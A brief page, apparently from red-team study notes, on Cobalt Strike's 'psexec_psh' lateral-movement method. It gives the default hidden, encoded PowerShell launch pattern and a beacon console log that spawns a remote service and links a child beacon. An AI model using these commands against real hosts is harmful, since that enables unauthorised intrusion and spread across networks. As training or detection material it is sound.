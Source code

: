 <figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### `psexec_psh`

`psexec_psh` does not copy a binary to the target.

Rather, it executes a PowerShell one-liner (always 32-bit).

The pattern it uses by default is: `%COMSPEC% /b /c start /b /min powershell -nop -w hidden -encodedcommand (...)`.

```
beacon> jump psexec_psh web smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10) on web via Service Control Manager (PSH)

Started service bd119dd on web
[+] established link to child beacon: 10.10.122.30
```
